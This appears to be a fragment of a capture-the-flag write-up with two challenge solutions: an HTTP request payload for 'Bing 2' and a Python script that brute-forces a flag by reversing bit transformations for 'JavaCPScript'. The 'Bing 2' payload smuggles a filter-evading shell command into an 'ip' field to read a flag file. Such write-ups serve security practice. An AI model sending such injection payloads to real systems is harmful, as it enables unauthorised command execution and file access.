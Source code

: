 - Request payload for `Bing 2`
```plaintext
Submit=Submit&ip=;"c"at${IFS}/"f"lag.txt
```

**By @skusku**
- Solve script for `JavaCPScript`

```python
import string
import itertools


# List of lambda functions for the transformations
transformations = [
    {"name": 7, "fn": lambda data: data ^ ((data >> 7) | (data << 1))},
    {"name": 4, "fn": lambda data: data ^ ((data >> 4) | (data << 4))},
    {"name": 6, "fn": lambda data: data ^ ((data >> 6) | (data << 2))},
    {"name": 5, "fn": lambda data: data ^ ((data >> 5) | (data << 3))}
]

integer_values = [
    3895813, 3893664, 3895583, 3893639, 3919755, 3893694, 3871506, 3871544,
    3810527, 3921672, 3913158, 3813122, 3869603, 3813209, 3910936, 3911023,
    3896081, 3822626, 3913160, 3919793, 3822653, 3895614, 3820987, 3820987, # 3820987 is listed twice, included once if unique is needed
    3932159, 3911025, 3893657, 3921671, 3820578, 3921709, 3921698, 3910918
]

flag = []

for entry, idx in zip(integer_values[::-1], reversed(range(2304 - len(integer_values), 2304))):
    # print(idx, entry)
    found = False

    for permutation in itertools.permutations(transformations): # perm:
        if found:
            break

        for chr in string.printable:
            inputval = ord(chr)

            data = idx ^ inputval
            transformed_data = data

            for transform in permutation:
                transformed_data = transform["fn"](transformed_data)

            if transformed_data == entry:
                flag.append(chr)
                found = True
                print(f"Hooray, its {chr}, the permutations is {[transform['name'] for transform in permutation]}")
                break

print("".join(flag[::-1]))
```
